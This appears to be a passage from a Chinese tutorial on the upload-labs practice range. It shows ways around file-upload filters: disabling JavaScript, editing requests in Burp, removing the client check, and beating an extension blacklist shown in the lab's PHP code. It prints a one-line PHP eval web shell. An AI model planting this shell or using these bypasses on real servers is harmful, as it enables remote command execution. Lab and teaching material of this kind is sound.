 在上传前先禁用掉 JavaScript

![](http://img.wukaipeng.com/2023/1017-075949-image-20231017075948931.png)

首先我们上传文件 `info.php`，内容是输出 php 信息：

```php
<?php phpinfo(); ?>
```

![](http://img.wukaipeng.com/2023/10/19-070309-image-20231019070309633.png)我们也可以上传 `get.php`，直接用参数控制输出

```php
<?php eval(@$_GET['cmd']); ?>
```

![](http://img.wukaipeng.com/2023/10/19-071303-image-20231019071303290.png)

### 修改后缀名

先把 `get.php` 修改为符合上传要求 👉 `get.png`，然后用 Burp 抓包改回原来的 `get.php`

![](http://img.wukaipeng.com/2023/10/19-071741-image-20231019071740872.png)



### 修改前端代码

删除 `onsubmit` 方法，这种方式仅在 FireFox 生效：

![](http://img.wukaipeng.com/2023/10/19-072230-image-20231019072230409.png)

## 服务端 - 黑名单绕过

### 特殊后缀

在 pass03，这里后端无法上传的黑名单包括 `.asp`, `.aspx`, `.php`, `.jsp`。



```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array('.asp','.aspx','.php','.jsp');
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //收尾去空

        if(!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;            
            if (move_uploaded_file($temp_file,$img_path)) {
                 $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '不允许上传.asp,.aspx,.php,.jsp后缀文件！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
```